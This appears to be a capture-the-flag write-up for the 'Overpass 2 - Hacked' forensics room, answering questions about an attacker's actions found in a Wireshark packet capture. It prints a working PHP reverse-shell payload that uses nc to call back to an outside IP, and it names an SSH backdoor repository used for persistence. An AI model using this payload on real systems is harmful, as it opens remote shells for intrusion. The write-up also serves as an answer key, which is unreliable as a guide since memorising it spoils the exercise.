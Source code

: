 # Overpass 2 - Hacked

If you are experiencing trouble, google `wireshark follow tcp stream`

- What was the URL of the page they used to upload a reverse shell?

	- Open Wireshark, and then open the pcap file.
	- `/development/`

- What payload did the attacker use to gain access?

	- You have to search a big POST request.
	- `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

- What password did the attacker use to privesc?

	- Packet no. 76
	- `whe***************tant`

- How did the attacker establish persistence?

	- Packet no. 120
	- `https://github.com/NinjaJc01/ssh-backdoor`